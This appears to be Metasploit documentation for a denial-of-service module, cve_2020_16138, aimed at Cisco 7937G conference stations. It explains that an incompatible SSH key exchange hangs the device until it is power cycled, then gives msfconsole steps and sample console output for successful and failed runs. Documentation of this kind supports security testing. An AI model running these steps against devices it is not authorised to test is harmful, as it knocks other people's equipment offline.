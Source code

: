 ## Vulnerable Application

  [Cisco 7937G](https://www.cisco.com/c/en/us/support/collaboration-endpoints/unified-ip-conference-station-7937g/model.html) Conference Station.
  This module has been tested successfully against firmware versions SCCP-1-4-5-5 and SCCP-1-4-5-7.

  3. It has been observed that based on the firmware available from Cisco, all version are likely vulnerable.

### Description

This module exploits a bug in how the conference station handles incoming SSH connections that provide an incompatible key exchange. By connecting with an incompatible key exchange, the device becomes nonresponsive until it is manually power cycled.

## Verification Steps

  1. Obtain a Cisco 7937G Conference Station.
  2. Enable SSH Access on the device.
  3. Start msfconsole
  4. Do: `use auxiliary/dos/cisco/cve_2020_16138`
  5. Do: `set RHOST 192.168.1.10`
  6. Do: `run`
  7. The conference station should now be nonresponsive until it is power cycled

## Scenarios

### Cisco 7937G Running Firmware Version SCCP-1-4-5-7

#### Successful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[*] 192.168.110.209 - Connected (version 2.0, client OpenSSH_4.3)
[-] 192.168.110.209 - Exception: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - Traceback (most recent call last):
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2083, in run
[-] 192.168.110.209 -     self._handler_table[ptype](self, m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2198, in _negotiate_keys
[-] 192.168.110.209 -     self._parse_kex_init(m)
[-] 192.168.110.209 -   File "/usr/lib/python3/dist-packages/paramiko/transport.py", line 2354, in _parse_kex_init
[-] 192.168.110.209 -     raise SSHException(
[-] 192.168.110.209 - paramiko.ssh_exception.SSHException: Incompatible ssh peer (no acceptable kex algorithm)
[-] 192.168.110.209 - 
[*] 192.168.110.209 - DoS non-reset attack completed!
[*] 192.168.110.209 - Errors are intended.
[*] 192.168.110.209 - Device must be power cycled to restore functionality.
[*] Auxiliary module execution completed
```

#### Unsuccessful Scenario:
```
msf5 > use auxiliary/dos/cisco/cve_2020_16138 
msf5 auxiliary(dos/cisco/cve_2020_16138) > set rhost 192.168.110.209
rhost => 192.168.110.209
msf5 auxiliary(dos/cisco/cve_2020_16138) > run

[*] Starting server...
[-] 192.168.110.209 - Device doesn't appear to be functioning (already DoS'd?) or SSH is not enabled.
[*] Auxiliary module execution completed
```
